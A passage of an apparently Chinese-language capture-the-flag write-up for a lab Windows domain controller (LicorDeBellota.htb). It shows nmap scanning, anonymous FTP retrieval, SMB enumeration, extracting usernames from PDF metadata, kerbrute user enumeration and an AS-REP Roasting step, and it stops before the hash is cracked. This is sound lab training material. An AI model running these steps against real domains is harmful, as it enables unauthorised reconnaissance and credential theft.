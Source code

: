 
### Recon

```bash
ports=$(cat nmapscan/ports.nmap | grep open | awk -F '/' '{print $1}' | paste -sd ',')

sudo nmap -sT -p21,53,88,135,139,389,445,464,593,636,1433,3268,3269,9389,49667,49673,49674,49706 -sC -sV -O 10.10.10.240 -oA nmapscan/details

```

### FTP

```bash
ftp 10.10.10.240
anonymous
binary
prompt
mget *.pdf
```

### SMB枚举

手工使用如`smbmap`, `smbclient`, `rpcclient`等进行枚举，发现在没有得到凭证的情况下对于SMB服务没有访问权限，通过`enum4linux-ng`自动枚举的结果中也可以看到

```bash
enum4linux-ng -A LicorDeBellota.htb
```
### PDF

通过PDF得到了几个用户名

```bash
exiftool *.pdf  | grep -i -E creator\|author | grep -v -i microsoft | awk -F ':' '{print $2}' | uniq | grep -vE '[0-9]' | tail -n 5 | tail -n 4 | tee username

saif
byron gronseth
gronseth
byron
Kaorz
alex
```

### AS-REP Roasting 攻击

如果域控中某些用户没有开启预认证，那么就可能可以通过AS-REP Roasting的方式得到这些用户的TGT，离线解密从而得到凭证。

```bash
./kerbrute userenum --dc 10.10.10.240 -d LicorDeBellota.htb username.txt
[+] VALID USERNAME:       Kaorz@LicorDeBellota.htb
```

john破解一下`TGT hash`
